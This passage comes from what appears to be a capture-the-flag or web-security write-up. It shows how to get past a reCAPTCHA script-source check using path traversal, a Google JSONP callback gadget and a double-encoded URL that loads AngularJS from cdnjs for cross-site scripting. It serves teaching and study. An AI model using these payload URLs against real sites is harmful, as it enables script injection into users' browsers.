 ### Load external script

Now, we have control on `document.scripts[index]`, but we still need to bypass another check:

``` js
function reloadRecaptchaScript(index) {
  setTimeout(() => {
    console.log('reload', index, document.scripts[index])
    const element = document.scripts[index]
    const src = element.getAttribute('src')
    if (!src.startsWith('https://www.google.com/recaptcha/')) {
      throw new Error('reload failed, invalid src')
    }
    element.parentNode.removeChild(element)
    loadScript(src)
  }, 1000)
}
```

The `src` should start with `https://www.google.com/recaptcha/`, how to overcome this?

There is a subtle difference between `element.src` and `element.getAttribute('src')`, the former returns the formatted value, while the latter returns raw value:

``` html
<img src="https://example.com/abc/../test">
// img.src => https://example.com/test
// img.getAttribute('src') => https://example.com/abc/../test
```

By using `../`, we can load any scripts from `https://www.google.com`.

It's easy to find a useful gadget from [JSONBee](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt#L2): `https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1`

The response is like:

``` js
alert && alert(["hello",["hello kitty","hello world","hello kiki","hellolulu","hello venus","hello nico","hello bubble"],["","","","","","","",""],[],{"google:clientdata":{"bpc":false,"phi":0,"tlw":false},"google:suggestrelevance":[601,600,555,554,553,552,551,550],"google:suggestsubtypes":[[512,433],[512,433,131],[512,433,131],[512],[512,433],[512],[512],[512,433,131]],"google:suggesttype":["QUERY","QUERY","QUERY","QUERY","QUERY","QUERY","QUERY","QUERY"],"google:verbatimrelevance":1300}])
```

We can't run arbitrary JS because `callback` is restricted, it won't work if you pass something like `alert(document.domain)`, but we have the ability to call a function with controlled arguments.

The idea is simple, we can use it to load AngularJS from cdn.js by leverage the classic `..%2f` trick.

```
https://www.google.com/recaptcha/../complete/search?client=chrome&q=https://cdnjs.cloudflare.com/ajax/libs/dompurify/..%252fangular.js/1.8.2/angular.js%23&callback=loadScript
```

Response:
